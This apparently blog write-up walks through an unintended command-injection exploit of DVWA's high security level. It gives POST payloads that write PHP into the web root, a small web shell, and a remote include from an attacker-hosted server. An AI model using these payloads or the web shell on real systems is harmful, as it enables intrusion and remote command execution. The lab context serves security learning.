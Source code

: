 ### The unintended(?) way

I assume this was not the intended way to exploit this weakness, but then again, who wants to exploit something the intended way?

Step one is to check, whether we can still write text into a file. We can't use environment variables anymore, but being able to write (somewhat limited) arbitrary text into a file should be good enough.

```
// OWASP ZAP POST request
POST http://dvwa.whatever.tld/vulnerabilities/exec/ HTTP/1.1

// POST data
ip=.'test' 2>/var/www/dvwa/test.php&Submit=Submit

// GET result for /test.php
ping: .test: Name or service not known
```

Great, we can still write to a file in the web directory. Next we're going to try and inject some PHP code.

```
// POST data
ip=.'<?php echo "what is this then?<!--"?>' 2>/var/www/dvwa/test.php&Submit=Submit

// GET result for /test.php
ping: .what is this then?
```

Awesome, so PHP code is not a problem. Next, we want to execute system commands, and that's where it get a bit tricky, or so I thought.

```
// POST data
ip=.'<?php shell_exec("ls -lah")?>' 2>/var/www/dvwa/test.php&Submit=Submit

// GET result for /test.php
<blank page>
```

Damn. If we take a look at the blacklist above, it should be fairly obvious why that doesn't work. The characters `$`,`;`,`(` and `)` are all being filtered out, so our PHP coding options are somewhat limited.

The big question is, what can we do in PHP without these characters? Well, there are still some options. What we can use to our advantage in this scenario are language constructs ([see solidlystated of an explanation](http://solidlystated.com/scripting/php-functions-without-parentheses/)). Language constructs are similar to functions but don't require parantheses, as shown in the `echo` example above. Luckily, besides `echo`, there is also the construct `include`, which allows us to include local or even remote files, although the later requires `allow_url_include` to be enabled in the PHP options.

So, off we go to write our own dirty little PHP script which we host on a server that is reachable by our target machine. One very, very simple example would be:

```
<?php
$out=shell_execute($_REQUEST['cmd']);
echo "<br><b>CMDi result for:</b>".$_REQUEST['cmd']."<br>".$out"</br>;
?>
```

Of course, that's not secure coding at all, but I promise I won't ship it in production. With the script hosted, we can now attempt to inlcude it in DVWA using the following request.

```
// POST data
ip=.'<?php include "http://pwny.whatever.tld/cmd.php.txt"?><!--' 2>/var/www/dvwa/test.php&Submit=Submit
```

And the GET result for `/test.php?cmd=whoami` is?

![DVWA - Command Injection High - Exploitation Result](https://www.lastbreach.com/user/pages/03.blog/dvwa-unintended-command-injection-high/Screenshot_20180820_203556.png)

### Conclusion

Not much to say here, it was fun tinkering around with a vulnerability that I thought I knew already and finding a new way to exploit it. As I said, the `include` construct requires `allow_url_include` to be set in order to include remote sources, so this is not a sure fire way of exploiting a faulty command execution feature. Nevertheless, I learned a new approach to this type of vulnerability and I hope other have too by reading this. If you have questions or additional ideas, I'm all ears. Best tweet me [@hashtagsecurity](https://twitter.com/HashtagSecurity) or us [@LastBreach](https://twitter.com/LastBreach).
-   [http://www.scribd.com/doc/2530476/Php-Endangers-Remote-Code-Execution](http://www.scribd.com/doc/2530476/Php-Endangers-Remote-Code-Execution)
-   [http://www.ss64.com/bash/](http://www.ss64.com/bash/)
-   [http://www.ss64.com/nt/](http://www.ss64.com/nt/)
-   [https://owasp.org/www-community/attacks/Command\_Injection](https://owasp.org/www-community/attacks/Command_Injection)
